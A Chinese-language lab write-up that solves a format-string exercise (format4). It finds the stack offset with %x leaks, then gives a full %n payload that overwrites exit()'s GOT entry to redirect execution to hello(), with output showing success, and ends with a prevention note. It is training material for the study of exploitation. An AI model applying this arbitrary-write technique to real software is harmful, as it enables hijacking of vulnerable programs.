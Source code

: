 # 格式化字符串实验3

## 实验概述

### 【目的】
运行format4，得到输出`code execution redirected! you win`
### 【环境】
Linux
### 【工具】
python
### 【原理】
格式化字符串，是一些程序设计语言在格式化输出API函数中用于指定输出参数的格式与相对位置的字符串参数，例如C、C++等程序设计语言的printf类函数，其中的转换说明（conversion specification）用于把随后对应的0个或多个函数参数转换为相应的格式输出；格式化字符串中转换说明以外的其它字符原样输出。[1]
## 实验步骤

### 【步骤】
#### format4
```
void __noreturn vuln()
{
  char s; // [sp+0h] [bp-208h]@1

  fgets(&s, 512, stdin);
  printf(&s);
  exit(1);
}
```
```
void __noreturn hello()
{
  puts("code execution redirected! you win");
  _exit(1);
}
.text:080484EB hello           proc near
.text:080484EB                 push    ebp
.text:080484EC                 mov     ebp, esp
.text:080484EE                 sub     esp, 8
.text:080484F1                 sub     esp, 0Ch
.text:080484F4                 push    offset s        ; "code execution redirected! you win"
.text:080484F9                 call    _puts
.text:080484FE                 add     esp, 10h
.text:08048501                 sub     esp, 0Ch
.text:08048504                 push    1               ; status
.text:08048506                 call    __exit
.text:08048506 hello           endp
```
需要控制程序执行流到`hello()`函数，`printf()`后紧跟着`exit()`,这里要更改执行流到`hello()`，需要覆盖`exit()`got表地址。
```
.got.plt:0804A01C off_804A010     dd offset _exit         ; DATA XREF: __exitr
```
通过IDA pro可以看到，我们需要把0804a01c的值改为080484eb
```
$ python -c 'print "AAAA"+".".join(["%d:%%x" % i for i in range(1,16)])' | ./format4
AAAA1:200.2:f7ed25a0.3:f7f0cf8a.4:41414141.5:78253a31.6:253a322e.7:3a332e78.8:342e7825.9:2e78253a.10:78253a35.11:253a362e.12:3a372e78.13:382e7825.14:2e78253a.15:78253a39

$ python -c 'print "ABCD" + "X" * 4 + "%4$x."' | ./format4
ABCDXXXX44434241.

```
查到偏移为4。
```
$ python -c 'print "\x1c\xa0\x04\x08\x1d\xa0\x04\x08\x1e\xa0\x04\x08\x1f\xa0\x04\x08"  + "%219d%4$n%153d%5$n%128d%6$n%260d%7$n"' | ./format4
����                                                                                                                                                                                                                        512                                                                                                                                               -135318112                                                                                                                      -135078006                                                                                                                                                                                                                                                           134520860
code execution redirected! you win

```

### 【总结】

本次实验主要进一步熟悉了通过%x泄露内存数据，通过%n来进行任意地址写，通过%`x`d来控制输出x个字符，通过覆写got表地址来达到控制程序执行流的目的。

可以发现，格式化字符串漏洞发生的原因是程序将格式化字符串的权限交给用户，即用户可以操作格式化字符串的内容。

要预防这类情况，在使用格式化字符串函数时，format参数的权限一定不能交给用户。
